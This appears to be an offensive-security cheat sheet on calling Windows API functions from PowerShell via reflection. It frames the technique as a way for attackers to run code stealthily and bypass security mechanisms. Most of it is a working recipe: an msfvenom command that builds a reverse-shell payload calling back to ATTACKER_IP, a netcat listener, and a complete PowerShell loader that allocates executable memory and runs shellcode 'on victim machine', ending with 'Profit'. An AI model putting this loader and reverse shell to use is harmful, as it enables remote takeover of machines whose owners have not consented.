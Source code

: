 # Windows Application Programming Interface (API)

Windows API: 

The Windows Application Programming Interface (API) allows programs to interact with the underlying operating system, giving them access to essential system-level functions such as memory management, file operations, and networking. It serves as a bridge between the application and the operating system, enabling efficient resource handling. The Windows API is crucial because many exploitation techniques and malware rely on it to manipulate processes, allocate memory, and execute shellcodes. Common Windows API functions frequently used by malicious actors include VirtualAlloc, CreateThread, WaitForSingleObject, etc.

## Techniques

Accessing Windows API through PowerShell Reflection: 

Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, PowerShell Reflection allows attackers to call Windows API functions directly at runtime. This will enable them to manipulate low-level system processes, making it a primary tool for bypassing security mechanisms, interacting with the operating system, and executing code stealthily.

## Tools

###  msfvenom

### Example usage:

#### 1) Generate shellcode that will run using powershell

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=ATTACKER_PORT -f powershell

#### 2) Setup listener

    nc -lvnp ATTACKER_PORT

#### 3) Find a way to run this code snippet on victim machine

    $VrtAlloc = @"
    using System;
    using System.Runtime.InteropServices;

    public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
    }
    "@

    Add-Type $VrtAlloc 

    $WaitFor= @"
    using System;
    using System.Runtime.InteropServices;

    public class WaitFor{
     [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
    }
    "@

    Add-Type $WaitFor

    $CrtThread= @"
    using System;
    using System.Runtime.InteropServices;

    public class CrtThread{
     [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
    }
    "@
    Add-Type $CrtThread   

    [Byte[]] $buf = SHELLCODE_PLACEHOLDER
    [IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
    $thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
    [WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

#### 4) Profit
